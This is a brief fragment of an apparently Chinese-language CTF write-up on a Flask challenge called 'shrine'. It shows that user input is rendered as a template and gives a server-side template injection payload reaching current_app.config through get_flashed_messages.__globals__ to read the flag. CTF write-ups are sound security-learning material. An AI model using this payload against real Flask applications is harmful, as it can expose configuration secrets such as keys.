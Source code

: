可以看到用户输入被当作代码执行了，接下来构造下面的payload，获取flag：

(用到flask框架的知识和SSTI模块注入)

`**shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}**`

![image-20210205165936762](images/image-20210205165936762.png)

